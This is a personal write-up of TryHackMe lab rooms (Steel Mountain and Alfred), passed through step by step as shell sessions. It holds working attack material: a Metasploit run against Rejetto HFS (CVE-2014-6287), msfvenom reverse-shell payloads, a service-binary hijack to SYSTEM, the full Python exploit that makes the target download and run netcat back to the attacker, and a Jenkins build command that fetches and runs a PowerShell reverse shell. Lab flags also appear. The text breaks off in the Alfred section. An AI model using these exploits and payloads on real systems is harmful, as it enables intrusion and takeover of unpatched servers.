










# Advanced Exploitation

- Vulnerability Scanning
- Handling Public Exploits
- Password Cracking
- Port Redirection

## Steel Mountain
> https://tryhackme.com/room/steelmountain

<!-- MYIP=10.10.93.153 -->
MYIP=10.10.101.63
<!-- TARGET=10.10.170.98 -->
TARGET=10.10.52.3
nmap -sCV --min-rate 8888 -T4 -p- $TARGET
```nmap
Nmap scan report for ip-10-10-166-27.eu-west-1.compute.internal (10.10.166.27)
  Host is up, received arp-response (0.0017s latency).
  Scanned at 2023-02-25 14:27:22 GMT for 94s
  Not shown: 64434 closed ports, 1086 filtered ports
  Reason: 64434 resets and 1086 no-responses
  PORT      STATE SERVICE      REASON          VERSION
  80/tcp    open  http         syn-ack ttl 128 Microsoft IIS httpd 8.5
  135/tcp   open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
  139/tcp   open  netbios-ssn  syn-ack ttl 128 Microsoft Windows netbios-ssn
  445/tcp   open  microsoft-ds syn-ack ttl 128 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
  3389/tcp  open  ssl          syn-ack ttl 128 Microsoft SChannel TLS
  5985/tcp  open  http         syn-ack ttl 128 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  8080/tcp  open  http         syn-ack ttl 128 HttpFileServer httpd 2.3
  47001/tcp open  http         syn-ack ttl 128 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  49152/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
  49153/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
  49154/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
  49155/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
  49156/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
  49169/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
  49170/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
```

### Task1 
Who is the employee of the month?
> Bill Harper
```
go to port 80
save image, reverse google search
```

### Task3
Scan the machine with nmap. What is the other port running a web server on?
> 8080

Take a look at the other web server. What file server is running?
> Rejetto HTTP File Server
```
8080/tcp  open     http               syn-ack ttl 128 HttpFileServer httpd 2.3
|_http-title: HFS /
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3

Go $TARGET:8080 on browser, view page source
<fieldset id='serverinfo'>
		<legend> Server information</legend>
		<a href="http://www.rejetto.com/hfs/">HttpFileServer 2.3</a>
		<br />Server time: 4/1/2023 10:11:13 PM
		<br />Server uptime: 00:27:45
	</fieldset>
```
What is the CVE number to exploit this file server?
> 2014-6287

```
searchsploit "Rejetto 2.3"
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                      | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                 | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                 | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution            | windows/webapps/34852.txt
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                         | windows/webapps/49125.py
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results


findsploit 2.3
___ _           _           _       _ _
/ __(_)_ __   __| |___ _ __ | | ___ (_) |_
/ _\ | | '_ \ / _` / __| '_ \| |/ _ \| | __|
/ /   | | | | | (_| \__ \ |_) | | (_) | | |_
\/    |_|_| |_|\__,_|___/ .__/|_|\___/|_|\__|
|_|

+ -- --=[ findsploit v2.0 by @xer0dayz
+ -- --=[ https://sn1persecurity.com

+ -- --=[ SEARCHING:  rejetto 2.3

+ -- --=[ NMAP SCRIPTS


+ -- --=[ METASPLOIT EXPLOIT S


+ -- --=[ EXPLOITDB EXPLOITS

bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
------------------------------------------------------------------------------------ ---------------------------------
Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                      | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                 | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                 | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution            | windows/webapps/34852.txt
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                         | windows/webapps/49125.py
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

https://www.exploit-db.com/search?q=rejetto 2.3++
https://www.google.ca/search?q=rejetto 2.3%20%20+exploit
https://www.google.ca/search?q=rejetto 2.3%20%20+exploit+site:www.securityfocus.com
https://www.google.ca/search?q=rejetto 2.3%20%20+site:0day.today
https://www.google.ca/search?q=rejetto 2.3%20%20+site:www.security-database.com
https://www.google.ca/search?q=rejetto 2.3%20%20+site:packetstormsecurity.com
https://exploits.shodan.io/?q=rejetto 2.3++
https://vulners.com/search?query=rejetto 2.3++


https://www.exploit-db.com/exploits/34926
CVE:
2014-6287

```

Use Metasploit to get an initial shell. What is the user flag?
> b04763b6fcf51fcd7c13abc7db4fd365

```
└─# msfconsole -q
msf6 > search cve-2014-6287

Matching Modules
================

#  Name                                   Disclosure Date  Rank       Check  Description
-  ----                                   ---------------  ----       -----  -----------
0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > info

Name: Rejetto HttpFileServer Remote Command Execution
Module: exploit/windows/http/rejetto_hfs_exec
Platform: Windows
Arch:
Privileged: No
License: Metasploit Framework License (BSD)
Rank: Excellent
Disclosed: 2014-09-11

Provided by:
Daniele Linguaglossa <danielelinguaglossa@gmail.com>
Muhamad Fadzil Ramli <mind1355@gmail.com>

Available targets:
Id  Name
--  ----
0   Automatic

Check supported:
Yes

Basic options:
Name       Current Setting  Required  Description
----       ---------------  --------  -----------
HTTPDELAY  10               no        Seconds to wait before terminating web server
Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/
  Using-Metasploit
RPORT      80               yes       The target port (TCP)
  SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on
  the local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT    8080             yes       The local port to listen on.
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       The path of the web application
URIPATH                     no        The URI to use for this exploit (default is random)
  VHOST                       no        HTTP server virtual host

  Payload information:
  Avoid: 3 characters

  Description:
  Rejetto HttpFileServer (HFS) is vulnerable to remote command
  execution attack due to a poor regex in the file ParserLib.pas. This
  module exploits the HFS scripting commands by using '%00' to bypass
  the filtering. This module has been tested successfully on HFS 2.3b
  over Windows XP SP3, Windows 7 SP1 and Windows 8.

  References:
https://nvd.nist.gov/vuln/detail/CVE-2014-6287
OSVDB (111386)
  https://seclists.org/bugtraq/2014/Sep/85
http://www.rejetto.com/wiki/index.php?title=HFS:_scripting_commands

msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.170.98
RHOSTS => 10.10.179.98
msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080

msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.93.153:4444
[*] Using URL: http://10.10.93.153:8080/5WsgZ5tsviHoH
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /5WsgZ5tsviHoH
[*] Sending stage (175686 bytes) to 10.10.170.98
[!] Tried to delete %TEMP%\SlKJUoUF.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.93.153:4444 -> 10.10.170.98:49261) at 2023-04-02 05:43:04 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer        : STEELMOUNTAIN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows


shell 

c:\Users\bill>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of c:\Users\bill

 09/27/2019  09:09 AM    <DIR>          .
 09/27/2019  09:09 AM    <DIR>          ..
 09/26/2019  11:29 PM    <DIR>          .groovy
 09/27/2019  04:07 AM    <DIR>          Contacts
 09/27/2019  09:08 AM    <DIR>          Desktop
 09/27/2019  04:07 AM    <DIR>          Documents
 09/27/2019  04:07 AM    <DIR>          Downloads
 09/27/2019  04:07 AM    <DIR>          Favorites
 09/27/2019  04:07 AM    <DIR>          Links
 09/27/2019  04:07 AM    <DIR>          Music
 09/27/2019  04:07 AM    <DIR>          Pictures
 09/27/2019  04:07 AM    <DIR>          Saved Games
 09/27/2019  04:07 AM    <DIR>          Searches
 09/27/2019  04:07 AM    <DIR>          Videos
 0 File(s)              0 bytes
 14 Dir(s)  44,170,067,968 bytes free


 c:\Users\bill>cd Desktop
 cd Desktop

 c:\Users\bill\Desktop>dir
 dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of c:\Users\bill\Desktop

 09/27/2019  09:08 AM    <DIR>          .
 09/27/2019  09:08 AM    <DIR>          ..
 09/27/2019  05:42 AM                70 user.txt
 1 File(s)             70 bytes
 2 Dir(s)  44,170,067,968 bytes free

 c:\Users\bill\Desktop>type user.txt
 type user.txt
 b04763b6fcf51fcd7c13abc7db4fd365
```

### TASK 3 PRIVILEGE ESCALATION

Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

> AdvancedSystemCareService9

```
Download this powershell - https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

└─# wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
--2023-04-02 12:43:26--  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 600580 (587K) [text/plain]
Saving to: 'PowerUp.ps1'

PowerUp.ps1             100%[==============================>] 586.50K  --.-KB/s    in 0.06s

2023-04-02 12:43:27 (10.0 MB/s) - 'PowerUp.ps1' saved [600580/600580]

meterpreter > upload ~/repo/PowerUp.ps1
[*] uploading  : /root/repo/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 586.50 KiB of 586.50 KiB (100.0%): /root/repo/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /root/repo/PowerUp.ps1 -> PowerUp.ps1
meterpreter > pwd
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
meterpreter > load powershell
Loading extension powershell...Success.

meterpreter > powershell_shell
PS > pwd

 Directory: C:\Users\bill\Desktop


    Mode                LastWriteTime     Length Name
    ----                -------------     ------ ----
    -a---          4/2/2023   6:01 AM     600303 PowerUp.ps1
    -a---         9/27/2019   5:42 AM         70 user.txt


    PS > . .\PowerUp.ps1
    PS > Invoke-AllChecks

[+]======= HERE
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
[+]=======

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AWSLiteAgent
Path           : C:\Program Files\Amazon\XenTools\LiteAgent.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AWSLiteAgent' -Path <HijackPath>
CanRestart     : False
Name           : AWSLiteAgent
Check          : Unquoted Service Paths
...
a lot more


```

The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.167.130 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe` -> nc -lvnp 4443

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.167.130 LPORT=4443 -f exe -o ASCService.exe` ->
Run Listener on the background
```
meterpreter > background
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.8.3.38
set LPORT 4443
run -j
```

Back to Old Session
```
shell # make sure to use cmd
sc stop AdvancedSystemCareService9

upload exploit
upload ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
sc start AdvancedSystemCareService9
```


MYIP=10.10.167.130
TARGET=10.10.195.134
You should be getting a shell now from your chosen listener
```
┌──(root㉿kali)-[~/repo]
└─# nc -lvnp 4443
listening on [any] 4443 ...
connect to [10.10.167.130] from (UNKNOWN) [10.10.195.134] 49243
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\>dir /s root.txt
dir /s root.txt
Volume in drive C has no label.
Volume Serial Number is 2E4A-906A

Directory of C:\Users\Administrator\Desktop

09/27/2019  05:41 AM                32 root.txt
1 File(s)             32 bytes


C:\Users\Administrator\Desktop>type root.txt
type root.txt
9af5f314f57607c00fd09803a587db80
```

### TASK 4 Access And Escalation Without Metasploit

Download the exploit
```
wget https://www.exploit-db.com/download/39161
mv 39161 exploit.py

```

download ncat to windows
```
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/windows/x86/ncat.exe
mv ncat.exe nc.exe 
```

serve python webserver to host nc.exe
python -m http.server 8888

edit exploit.py

change ip_addr = your attacker IP
add port 8888 to vbs
```python
import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "192.168.44.128" #local IP address
	local_port = "443" # Local Port number
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+  ":8888"     +"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
```

python2 exploit.py 10.10.202.24 8080

https://github.com/carlospolop/PEASS-ng/releases/tag/20220717

wget https://github.com/carlospolop/PEASS-ng/releases/download/20220717/winPEASx64.exe 
mv winPEASx64.exe winPEAS.exe 
powershell -c wget "http://<attacker ip>:8888/winPEAS.exe" -outfile "winPEAS.exe"
powershell -c wget "http://10.10.68.193:8888/winPEAS.exe" -outfile "winPEAS.exe"
```
Services Information
Interesting Services -non Microsoft-
Check if you can overwrite some service binary or perform a DL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows-hardening/windows-local-
privilege-escalation#services
AdvancedSystemCareService9(I0bit - Advanced SystemCare Service 9)[C:\Program Files (x86) \I0bit\Advanced SystemCare\ASCService.exe]
- Auto - Running - No quotes an
d Space detected
File Permissions: bill [WriteData/Createfiles]
Possible DLL Hijacking in binary folder: C:\Program Files (x86)\I0bit\Advanced SystemCare (bill (WriteData/CreateFiles])
```
powershell -c Get-Service

Now We can  escalate our privileges
Generate your payload using msfvenom and pull it to the system using powershell.

```
msfvenom -p windows/shell_reverse_tcp LHOST=&lt;IP> LPORT=443 -e x86/shikata_ga_nai -f exe -o Advanced.exe
```

Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands.

```
move Advance.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
sc stop AdvancedSystemCareService9

Shortly followed by;

sc start AdvancedSystemCareService9

Once this command runs, you will see you gain a shell as Administrator on our listener!
```


## Alfred
> https://tryhackme.com/room/alfred 
 


```bash
MYIP=10.10.79.89
MYSERVER=10.10.79.89:8888

# go to jenkins url
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
python -m http.server 8888

# In another terminal 
nc -lvnp 4444

# Now go to Jenkins Project Configuration
http://10.10.182.88:8080/job/project/configure
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.79.89:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.79.89 -Port 4444

Make sure to have nc already listening at 4444 before triggering the build item 

(root㉿kali)-[~/repo]
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.79.89] from (UNKNOWN) [10.10.182.88] 49306
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project> pwd

Path
----
C:\Program Files (x86)\Jenkins\workspace\project

PS C:\Program Files (x86)\Jenkins\workspace\project> systeminfo

Host Name:                 ALFRED
OS Name:                   Microsoft Windows 7 Ultimate
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          bruce
Registered Organization:
Product ID:                00426-OEM-9154295-64842
Original Install Date:     10/25/2019, 9:51:08 PM
System Boot Time:          4/5/2023, 11:00:11 AM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
[01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2400 Mhz
BIOS Version:              Xen 4.11.amazon, 8/24/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
